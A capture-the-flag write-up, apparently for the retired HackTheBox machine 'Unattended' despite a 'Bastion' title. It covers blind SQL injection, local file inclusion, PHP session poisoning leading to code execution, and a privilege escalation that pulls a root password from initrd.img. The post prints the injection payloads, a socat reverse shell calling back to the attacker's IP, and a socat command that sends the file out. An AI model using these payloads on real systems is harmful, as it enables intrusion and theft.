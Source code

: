 ```yaml
---
layout: post
title:  "Bastion writeup by godzillabg"
---
```


![Image](/assets/unattended/img0.png)

Hello guys, i’m Friscas from the team chmod755 and this is my first write-up.
Today i’m going to release this writeup of the retired Unattended machine!

# Enumeration
As usual we start with mapping the network using the wonderful tool Nmap  

![Image](/assets/unattended/img1.png)

And we get 2 open ports: port 80 and port 443! As you can see we even have a domain name for the “https://” port. Let’s add it to /etc/hosts

![Image](/assets/unattended/img2.png)

Now that we have added the domain name in our host database, we can open the website in our browser and start checking for a vuln.

So when we open the website we get the default Apache index  

![Image](/assets/unattended/img3.png)

So what if we try to search “/index.php” ?

![Image](/assets/unattended/img4.png)

We found something; now it is time to check the source code to see what we got

![Image](/assets/unattended/img5.png)

So  we can see we have parameters in “index.php”, “id” is the parameter. We can start with basic tests such as SQLi.. Appending “%27” to the end of  the URl is a good way to test for any problems
![Image](/assets/unattended/img6.png)  
`Before the %27`

![Image](/assets/unattended/img7.png)  
`After adding the %27`

We  can see that the website response is different. I think we are in the  right path. Now it is time to check which type of SQLi we have here.

Since  we have no errors, this means that this is not an error-based SQLi (the  classic one), but we can test for Blind SQLi, by using the boolean  method (thanks to George Boole,  for this amazing function). So now we gonna check the boolean variable  by getting the response of the website,TRUE and FALSE! How can we get  this? Simple; using the logical “and” operator: “index.php?id=587' and 1  = 1 — -”.. here’s the website’s response

![Image](/assets/unattended/img8.png)


The page is the same as when we go to” index.php?id=587" without the “%27",  but when we go to “index.php?id=587' and 1 = 2 — -”, we get

![Image](/assets/unattended/img9.png)

Since 1 is not 2, then the response is false! Blind SQLi confirmed.

We can fireup sqlmap now but we don’t get anything useful as credentials but we will find a table called “filepath” that contain the php files  that are included inside the index.php, so we can test manually! Maybe  we can read files and even execute them :D

We can use this amazing sql query: `UNION (SELECT ‘contact\’ UNION (SELECT \’/path/here\’ FROM filepath) — ‘) — +`

N.B  I have spent a lot of time trying and trying with load_file() and it  didn’t work so i want to thank the discord user: roughplay#1808 (TW: dastan9408) for helping me with that query!

ok now we test to get /etc/passwd but first we intercept the request using burpsuite and send it to Repeater!

![Image](/assets/unattended/img10.png)  
```This is the request with the parameter value url encoded: https://www.nestedflanders.htb/index.php?id=587' UNION (SELECT ‘contact/’ UNION (SELECT /’/etc/passwd/’ FROM filepath) — ‘) —```

So  as you can see we got the /etc/passwd! We got an LFI via SQLi :D how  amazing! But we can chain vulns and get RCE via LFI by log poisoning!  Exciting right? So LFI to RCE via SQLi!

Here you can find everything you need about log poisoning!

So we got as COOKIE a PHPSESSID! If you read the github repo we can see there is a LFI to RCE via PHP sessions!

Let’s give it a try!

![Image](/assets/unattended/img11.png)  
```https://www.nestedflanders.htb/index.php?id=587' UNION (SELECT ‘contact/’ UNION (SELECT /’/var/lib/php/sessions/sess_COOKIE’ FROM filepath) — ‘) —```

So now i created a new cookie with our RCE payload `<?php  system(“whoami”)?>` (url encoded)! and We get www-data, so we are  www-data! now it’s time for a reverse shell, we can use socat, and we  gonna listen to port 80!
```
Listener: socat file:`tty`,raw,echo=0 tcp-listen:80
Launch: exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:80
```

And we get the shell :D

![Image](/assets/unattended/img12.png)


Mmmm we are www-data, we can’t get the user flag because we don’t have the  privileges! It’s time to do some privesc. “ls” returns index.php, maybe  we can find credentials in there :D

![Image](/assets/unattended/img13.png)


and we get some mysql credentials. :D Time to check the mysql databse

![Image](/assets/unattended/img14.png)

the config table seems really interesting, time to check it

![Image](/assets/unattended/img15.png)

there’s some useless credentials but we get what it seems something that get executed

![Image](/assets/unattended/img16.png)

maybe if we change that value with a rev shell it will get executed, let’s try

![Image](/assets/unattended/img17.png)  
and after a little bit we get the shell :D

![Image](/assets/unattended/img18.png)
and we even get the user flag :D

# Privesc
Trying sudo we see it is not installed so we can check id to see our group

![Image](/assets/unattended/img19.png)

oh, weird we are part of the group grub, we can find files where grub have the permission on

![Image](/assets/unattended/img20.png)

Lol, we got initrd.img, and reading this article we can understand that initrd.img is nothing but a compressed file so it’s time to download the file on our machine and decompress it.

For downloading the file on our machine we can use socat again.

Since we are using port 443 for the shell as guly, we can use again port 80 for downloading the file.
```
Receiver: socat -u TCP-LISTEN:80,reuseaddr OPEN:initrd.img-4.9.0-8-amd64,creat 
Sender: socat -u FILE:/boot/initrd.img-4.9.0-8-amd64 TCP:IP:80
```

![Image](/assets/unattended/img21.png)

Now we can check for useful things as credentials: `grep -nr “password”`. and see what we get

![Image](/assets/unattended/img22.png)

mmmm let’s check the:”/scripts/local-top/cryptroot” script and see if we get something useful. :P

Reading the source code we can see this line of code:  
```
if ! crypttarget=”$crypttarget” cryptsource=”$cryptsource” \
 /sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then message “cryptsetup failed, bad password or options?””
```  
This command: `/sbin/uinitrd c0m3s3f0ss34nt4n1` will let us get the root password! Let’s try this :D
![Image](/assets/unattended/img23.png)
__Since im not VIP my friend send me the screenshot that’s why is different xD__

And let’s gooooo! we are now root and we can get the flag :P

__Hoped you all enjoyed my writeup__

__Ciao :D__

